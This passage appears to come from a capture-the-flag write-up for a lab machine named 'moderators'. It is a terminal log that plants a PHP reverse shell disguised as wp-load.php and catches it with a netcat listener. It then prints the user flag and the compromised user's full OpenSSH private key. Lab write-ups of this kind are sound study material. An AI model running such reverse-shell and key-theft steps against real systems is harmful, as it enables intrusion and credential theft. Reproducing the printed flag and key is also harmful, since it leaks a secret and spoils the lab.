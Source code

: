 ```bash
www-data@moderators:/dev/shm$ mv rev.php wp-load.php

➜  moderators nc -lvnp 4499
listening on [any] 4499 ...
connect to [10.10.14.5] from (UNKNOWN) [10.10.11.173] 37260
$ id && hostname
uid=1001(lexi) gid=1001(lexi) groups=1001(lexi),1002(moderators)
moderators

$ cat user.txt && cat .ssh/id_rsa
abbfc3e262e116c1559b3a2a97bdc041
-----BEGIN OPENSSH PRIVATE KEY-----
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
-----END OPENSSH PRIVATE KEY-----
```
